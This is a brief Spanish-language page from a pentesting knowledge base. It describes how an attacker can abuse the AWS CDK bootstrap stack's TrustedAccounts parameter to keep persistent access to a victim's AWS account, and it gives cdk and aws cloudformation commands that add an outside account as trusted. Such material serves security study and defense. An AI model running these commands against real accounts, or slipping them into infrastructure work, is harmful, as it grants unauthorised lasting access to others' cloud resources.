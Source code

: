 # AWS - Persistencia de Cloudformation

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Para más información, accede a:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### Stack de Bootstrap de CDK

El AWS CDK despliega un stack de CFN llamado `CDKToolkit`. Este stack soporta un parámetro `TrustedAccounts` que permite a cuentas externas desplegar proyectos de CDK en la cuenta de la víctima. Un atacante puede abusar de esto para otorgarse acceso indefinido a la cuenta de la víctima, ya sea utilizando la CLI de AWS para redeplegar el stack con parámetros, o la CLI de AWS CDK.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
